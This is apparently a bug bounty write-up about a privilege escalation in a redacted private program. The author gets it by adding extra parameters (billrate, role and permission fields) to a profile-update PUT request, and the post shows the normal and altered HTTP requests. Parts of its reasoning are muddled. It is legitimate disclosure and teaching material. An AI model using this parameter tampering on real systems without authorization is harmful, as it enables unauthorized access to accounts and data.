 ```yaml
---
title: 'EN \| Administrator level Privilege Escalation story'
date: 2020-03-19
permalink: /posts/administrator-level-privilege-escalation-story/
tags:
  - privilege escalation
  - administrator level
  - Bug Bounty
  - hack
  - bugbounty
  - write-up
  - poc
excerpt: 'EN \| Administrator level Privilege Escalation story'
---
```


In January of this year, I participated in a private program on HackerOne that was vulnerable to a Privilege Escalation. This is a private program, I can not disclose the name or company-related information per their request because of this I censored some parts of screenshots and requests. However, I wanted to share the details on how I escalated my basic privileges from a regular account to an admin user.

### Recon
Recon is the most important thing in the bug bounty, but this time I needn’t much to it. Because the Privilege Escalation was in the main domain. So I focused on requests and responses. 

### The most important step
The most important step to finding a privilege escalation is understanding to “How the application works?”, If you don’t pass this step, you can find privilege escalations easily. 

### Understanding the working principle of the application
There is only one tip. 
Read the field manual. (documentation)

<img src="/images/PrivEsc-BlogPost-1.PNG">  


### Finding Story
Refer to my penetration testing process, firstly I look for requests and responses. So, I did the same.

**URL Request:**
https://PRIVATE-PROGRAM.ext/me path and saw `whoami` code snippet in source-code and there were some privileges.

**whoami code snippet :**
`model_access_rules"
{"role":"administrator","user_type_id":1,"level":"userlevel10","model":"BillRate","allow_create":"all","allow_read":"all","allow_update":"all","allow_destroy":"all"},
{"role":"team_member","user_type_id":3,"level":"userlevel30","model":"BillRate","allow_create":"none","allow_read":"none","allow_update":"none","allow_destroy":"none"}`

<img src="/images/PrivEsc-BlogPost-3.PNG">  

This is a very good reference to find a privilege escalation, right? 

I am reading the code snippet and I understand that We can not update, create, read or destroy the “billrate” but an administrator can.



Examples : 

> `role` : We all know what is this. Change it to “admin, administrator, root”
> `user_type_id` : This refers to your privilege levels as integer. So we can put “0, 1, -1” to ours. 
> `level` : Doing the same function with the `user_type_id`, we can change it to “userlevel10”
> `allow_*` : This is controlling your privileges, so change it to “True, 1, yes, all”


So, we know what can I do with these parameters. Now we need only “How can we change these parameters?”. 


### Eureka! Eureka!
The website has a “profile update” function, we can add our potential vulnerable parameters to this request.


**Normal REQUEST:**
PUT /api/users/752902 HTTP/1.1
Host: PRIVATE-PROGRAM
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 316
Cookie: *redacted*

first_name=hacker&last_name=hacker&location=...&tags=...&custom_field_values=...&email=samet%40wearehackerone.com&license_type=licensed 


Adding our potential vulnerable parameters to the request

**Vulnerable REQUEST:**
PUT /api/users/752902 HTTP/1.1
Host: PRIVATE-PROGRAM
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 316
Cookie: *redacted*

first_name=hacker&last_name=hacker&location=...&tags=...&custom_field_values=...&email=samet%40wearehackerone.com&license_type=licensed &**billability_target=1337&billrate=1337**



We have an administrator-level privilege escalation now...

### The end : 
But it is duplicate.
<img src="/images/PrivEsc-BlogPost-2.PNG">  

